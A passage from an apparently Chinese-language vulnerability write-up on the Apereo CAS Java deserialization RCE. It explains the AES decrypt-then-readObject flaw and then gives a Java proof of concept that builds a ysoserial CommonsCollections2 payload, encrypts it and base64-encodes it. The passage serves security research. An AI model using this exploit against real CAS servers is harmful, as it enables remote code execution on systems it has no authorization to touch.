 ![](/assets/images/2020-01-17-apereo_cas_deserialize/20.png)  

分析decode方法可知，首先把传入的data通过`cipherBean.decrypt`方法解密，最后解密的数据在117行`in.readObject()`处触发Java反序列化漏洞。这里数据加解密使用的是AES对称算法  

![](/assets/images/2020-01-17-apereo_cas_deserialize/21.png)  

### 4. 构造POC  

通过分析我们知道Apereo CAS应用RCE漏洞是Java反序列化造成的，所以可以借助GitHub开源工具[ysoserial](https://github.com/frohoff/ysoserial)生成POC，注意AES加密结果需要base64编码一下    

```java
import org.cryptacular.util.CodecUtil;
import ysoserial.payloads.ObjectPayload;

public class ApereoExploit {

    public static void main(String[] args) throws Exception{
        String poc[] = {"CommonsCollections2","calc"};
        final Object payloadObject = ObjectPayload.Utils.makePayloadObject(poc[0], poc[1]);
        //AES加密
        EncryptedTranscoder et = new EncryptedTranscoder();
        byte[] encode = et.encode(payloadObject);
        //base64编码
        System.out.println(CodecUtil.b64(encode));
    }
}
```  
